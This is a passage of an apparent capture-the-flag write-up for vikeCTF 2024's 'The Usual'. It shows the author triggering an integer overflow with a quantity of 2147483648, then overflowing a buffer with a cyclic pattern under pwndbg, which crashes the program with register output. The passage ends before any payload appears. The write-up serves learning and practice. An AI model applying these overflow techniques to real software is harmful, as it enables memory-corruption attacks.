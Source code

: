 ```c
Can Buy Without Overflow?: 0
Can Buy With    Overflow?: 1
*/
```

## Solution

```bash
└─$ type clip
clip is an alias for xclip -sel clip

└─$ cyclic 300 | clip

└─$ gdb -q ./the-usual
pwndbg: loaded 147 pwndbg commands and 47 shell commands. Type pwndbg [--shell | --all] [filter] for a list.
pwndbg: created $rebase, $ida GDB functions (can be used with print/break)
Reading symbols from ./the-usual...
(No debugging symbols found in ./the-usual)
------- tip of the day (disable with set show-tips off) -------
GDB's apropos <topic> command displays all registered commands that are related to the given <topic>
pwndbg> r
Starting program: /home/woyag/Desktop/CTFs/vikectf/2024/misc/The Usual/the-usual
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".
Welcome to the flag shop!

Please make a selection:
1: A life-altering flag-themed quote, $10
2: A hand-typed, bespoke, artist's rendition of the flag, $45
3: An organic, custom-engraved flag stand, $130
4: The flag, $20,000
5: Exit

Your balance is $100
What would you like to buy? (1-5) 3
How many would you like? 2147483648
What would you like your flag stand to say? aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaac
Great! Your organic, custom-engraved flag stand will be delivered within three to six business weeks

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401556 in print_stand ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]──────────────────────────
*RAX  0x65
*RBX  0x7fffffffd9f8 —▸ 0x7fffffffde08 ◂— '/home/woyag/Desktop/CTFs/vikectf/2024/misc/The Usual/the-usual'
*RCX  0x7ffff7ebc034 (write+20) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x0
*RDI  0x7ffff7f92710 ◂— 0x0
*RSI  0x7ffff7f91643 (_IO_2_1_stdout_+131) ◂— 0xf92710000000000a /* '\n' */
 R8   0x0
 R9   0x0
*R10  0x7ffff7f39ac0 ◂— 0x100000000
*R11  0x202
 R12  0x0
*R13  0x7fffffffda08 —▸ 0x7fffffffde47 ◂— 'ALACRITTY_LOG=/tmp/Alacritty-980.log'
```